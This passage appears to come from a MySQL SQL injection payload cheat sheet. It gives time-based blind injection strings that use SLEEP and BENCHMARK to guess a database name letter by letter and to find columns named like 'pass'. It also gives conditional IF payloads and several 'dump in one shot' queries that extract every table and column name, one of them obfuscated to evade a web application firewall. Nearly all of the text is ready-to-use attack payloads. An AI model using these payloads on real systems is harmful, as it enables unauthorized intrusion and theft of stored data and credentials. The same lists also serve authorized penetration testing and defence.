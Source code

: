 ### Using SLEEP in a subselect

```powershell
1 and (select sleep(10) from dual where database() like '%')#
1 and (select sleep(10) from dual where database() like '___')# 
1 and (select sleep(10) from dual where database() like '____')#
1 and (select sleep(10) from dual where database() like '_____')#
1 and (select sleep(10) from dual where database() like 'a____')#
...
1 and (select sleep(10) from dual where database() like 's____')#
1 and (select sleep(10) from dual where database() like 'sa___')#
...
1 and (select sleep(10) from dual where database() like 'sw___')#
1 and (select sleep(10) from dual where database() like 'swa__')#
1 and (select sleep(10) from dual where database() like 'swb__')#
1 and (select sleep(10) from dual where database() like 'swi__')#
...
1 and (select sleep(10) from dual where (select table_name from information_schema.columns where table_schema=database() and column_name like '%pass%' limit 0,1) like '%')#
```

### Using conditional statements

```sql
?id=1 AND IF(ASCII(SUBSTRING((SELECT USER()),1,1)))>=100,1, BENCHMARK(2000000,MD5(NOW()))) --
?id=1 AND IF(ASCII(SUBSTRING((SELECT USER()), 1, 1)))>=100, 1, SLEEP(3)) --
?id=1 OR IF(MID(@@version,1,1)='5',sleep(1),1)='2
```

## MYSQL DIOS - Dump in One Shot

```sql
(select (@) from (select(@:=0x00),(select (@) from (information_schema.columns) where (table_schema>=@) and (@)in (@:=concat(@,0x0D,0x0A,' [ ',table_schema,' ] > ',table_name,' > ',column_name,0x7C))))a)#

(select (@) from (select(@:=0x00),(select (@) from (db_data.table_data) where (@)in (@:=concat(@,0x0D,0x0A,0x7C,' [ ',column_data1,' ] > ',column_data2,' > ',0x7C))))a)#

-- SecurityIdiots
make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@)

-- Profexer
(select(@)from(select(@:=0x00),(select(@)from(information_schema.columns)where(@)in(@:=concat(@,0x3C62723E,table_name,0x3a,column_name))))a)

-- Dr.Z3r0
(select(select concat(@:=0xa7,(select count(*)from(information_schema.columns)where(@:=concat(@,0x3c6c693e,table_name,0x3a,column_name))),@))

-- M@dBl00d
(Select export_set(5,@:=0,(select count(*)from(information_schema.columns)where@:=export_set(5,export_set(5,@,table_name,0x3c6c693e,2),column_name,0xa3a,2)),@,2))

-- Zen
+make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@)

-- Zen WAF
(/*!12345sELecT*/(@)from(/*!12345sELecT*/(@:=0x00),(/*!12345sELecT*/(@)from(`InFoRMAtiON_sCHeMa`.`ColUMNs`)where(`TAblE_sCHemA`=DatAbAsE/*data*/())and(@)in(@:=CoNCat%0a(@,0x3c62723e5461626c6520466f756e64203a20,TaBLe_nAMe,0x3a3a,column_name))))a)

```